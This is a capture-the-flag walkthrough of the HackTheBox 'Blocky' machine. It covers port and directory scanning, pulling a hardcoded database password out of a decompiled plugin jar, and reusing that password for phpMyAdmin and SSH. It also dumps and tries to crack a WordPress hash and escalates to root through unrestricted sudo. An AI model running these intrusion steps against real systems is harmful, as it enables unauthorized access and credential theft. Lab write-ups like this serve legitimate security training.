








# Enumeration

```bash
┌──(root💀shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.37
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-09 11:22 +08
Nmap scan report for 10.10.10.37
Host is up (0.0038s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Device type: general purpose|WAP|specialized|storage-misc|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|5.X|2.6.X (94%), Asus embedded (90%), Crestron 2-Series (89%), HP embedded (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel cpe:/h:asus:rt-ac66u cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:5.1 cpe:/o:linux:linux_kernel:2.6
Aggressive OS guesses: Linux 3.10 - 4.11 (94%), Linux 3.13 (94%), Linux 3.13 or 4.2 (94%), Linux 4.4 (94%), Linux 4.2 (93%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.12 (91%), Linux 3.2 - 4.9 (91%), Linux 3.8 - 3.11 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8192/tcp)
HOP RTT     ADDRESS
1   3.66 ms 10.10.14.1
2   3.67 ms 10.10.10.37

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.45 seconds
```

It seems like there’s an FTP port open. Let’s try it out!

```bash
┌──(root💀shiro)-[/home/shiro]
└─# ftp 10.10.10.37                                    
Connected to 10.10.10.37.
220 ProFTPD 1.3.5a Server (Debian) [::ffff:10.10.10.37]
Name (10.10.10.37:shiro): anonymous
331 Password required for anonymous
Password: 
530 Login incorrect.
ftp: Login failed
ftp> ls
530 Please login with USER and PASS
530 Please login with USER and PASS
ftp: Can't bind for data connection: Address already in use
```

Seems like we don’t have anonymous access… 

## Website



It seems like the website is running on Wordpress!

Let’s use `dirsearch` to check for any interesting directories. :)

```bash
┌──(root💀shiro)-[/home/shiro]
└─# dirsearch -u 10.10.10.37:80     

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /root/.dirsearch/reports/80_22-02-09_11-25-30.txt

Error Log: /root/.dirsearch/logs/errors-22-02-09_11-25-30.log

Target: http://10.10.10.37:80/

[11:25:30] Starting: 
[11:25:31] 403 -  297B  - /.ht_wsr.txt
[11:25:31] 403 -  300B  - /.htaccess.orig
[11:25:31] 403 -  300B  - /.htaccess.bak1
[11:25:31] 403 -  302B  - /.htaccess.sample
[11:25:31] 403 -  298B  - /.htaccessBAK
[11:25:32] 403 -  300B  - /.htaccess.save
[11:25:32] 403 -  298B  - /.htaccess_sc
[11:25:32] 403 -  298B  - /.htaccessOLD
[11:25:32] 403 -  301B  - /.htaccess_extra
[11:25:32] 403 -  300B  - /.htaccess_orig
[11:25:32] 403 -  291B  - /.html
[11:25:32] 403 -  299B  - /.htaccessOLD2
[11:25:32] 403 -  290B  - /.htm
[11:25:32] 403 -  300B  - /.htpasswd_test
[11:25:32] 403 -  296B  - /.htpasswds
[11:25:32] 403 -  297B  - /.httr-oauth
[11:25:32] 403 -  290B  - /.php
[11:25:32] 403 -  291B  - /.php3
[11:25:51] 301 -    0B  - /index.php  ->  http://10.10.10.37/
[11:25:52] 301 -  315B  - /javascript  ->  http://10.10.10.37/javascript/
[11:25:52] 200 -   19KB - /license.txt
[11:25:57] 200 -   13KB - /phpmyadmin/doc/html/index.html
[11:25:57] 301 -  315B  - /phpmyadmin  ->  http://10.10.10.37/phpmyadmin/
[11:25:58] 200 -   10KB - /phpmyadmin/
[11:25:58] 200 -   10KB - /phpmyadmin/index.php
[11:25:58] 301 -  312B  - /plugins  ->  http://10.10.10.37/plugins/
[11:25:58] 200 -  745B  - /plugins/
[11:26:00] 200 -    7KB - /readme.html
[11:26:01] 403 -  299B  - /server-status
[11:26:01] 403 -  300B  - /server-status/
[11:26:07] 200 -  380B  - /wiki/
[11:26:07] 301 -  309B  - /wiki  ->  http://10.10.10.37/wiki/
[11:26:07] 301 -  313B  - /wp-admin  ->  http://10.10.10.37/wp-admin/
[11:26:07] 301 -  315B  - /wp-content  ->  http://10.10.10.37/wp-content/
[11:26:07] 200 -    0B  - /wp-config.php
[11:26:07] 200 -    0B  - /wp-content/
[11:26:07] 200 -    1B  - /wp-admin/admin-ajax.php
[11:26:07] 200 -   69B  - /wp-content/plugins/akismet/akismet.php
[11:26:07] 500 -    0B  - /wp-content/plugins/hello.php
[11:26:07] 200 -  965B  - /wp-content/uploads/
[11:26:07] 200 -    1KB - /wp-admin/install.php
[11:26:07] 302 -    0B  - /wp-admin/  ->  http://10.10.10.37/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.37%2Fwp-admin%2F&reauth=1
[11:26:07] 500 -    4KB - /wp-admin/setup-config.php
[11:26:07] 301 -  316B  - /wp-includes  ->  http://10.10.10.37/wp-includes/
[11:26:07] 200 -    0B  - /wp-cron.php
[11:26:07] 500 -    0B  - /wp-includes/rss-functions.php
[11:26:07] 200 -   40KB - /wp-includes/
[11:26:07] 200 -    2KB - /wp-login.php
[11:26:07] 302 -    0B  - /wp-signup.php  ->  http://10.10.10.37/wp-login.php?action=register
[11:26:07] 405 -   42B  - /xmlrpc.php

Task Completed
```

Seems like there are some interesting pages called `wp-login.php`, `wp-admin`, `phpmyadmin` and `plugins`! Let’s check it out~

### Wordpress Login Page



I tried using the default Wordpress credentials `admin:password` but it didn’t work.

### Wordpress Admin Page



This was just a redirect back to `wp-login.php`

### PHPMyAdmin Page



The default credentials `admin:<blank>` does not work here as well…

### Plugins Page



Seems like there are some interesting files here. Let’s download them to inspect it with `jd-gui`!



There is some interesting information inside the class file OwO

```java
public String sqlUser = "root";
public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
```

Since the box does not have any `SQL` service open, can we assume that there’s some password reuse? :D

Trying the credentials on the `phpmyadmin` page worked!



# Exploitation

After surfing around the `phpmyadmin` page for some interesting information, I found a user information on `wordpress (left pane) > wp_users table`!



`username:notch` and `password hash:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/`

Let’s try using John the Ripper to crack the password!

```bash
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blocky]
└─# cat hash.txt    
notch:$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/                                                                                              
┌──(root💀shiro)-[/home/shiro/HackTheBox/Blocky]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:04:45 DONE (2022-02-09 11:56) 0g/s 50256p/s 50256c/s 50256C/s !!!@@@!!!..*7¡Vamos!
Session completed. 
```

It seems like there was no password found…

At this point, I was running out of ideas. However, I remembered that there was a `ssh` port open! So I tried using the username `notch` and the password found previously in the `jar` file to login… and it worked!

```bash
┌──(shiro㉿shiro)-[/home/shiro/HackTheBox/Blocky]
└─$ ssh notch@10.10.10.37  
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.
ED25519 key fingerprint is SHA256:ZspC3hwRDEmd09Mn/ZlgKwCv8I8KDhl9Rt2Us0fZ0/8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.37' (ED25519) to the list of known hosts.
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5
```

# Privilege Escalation

Before trying out anything, we should always check what commands the user is allowed to run with `sudo -l`

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Well… lucky for us, `notch` can run all commands as `sudo` :D

```bash
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:/home/notch# cat /root/root.txt 
0a9694a5b4d272c694679f7860f1cd5f
```

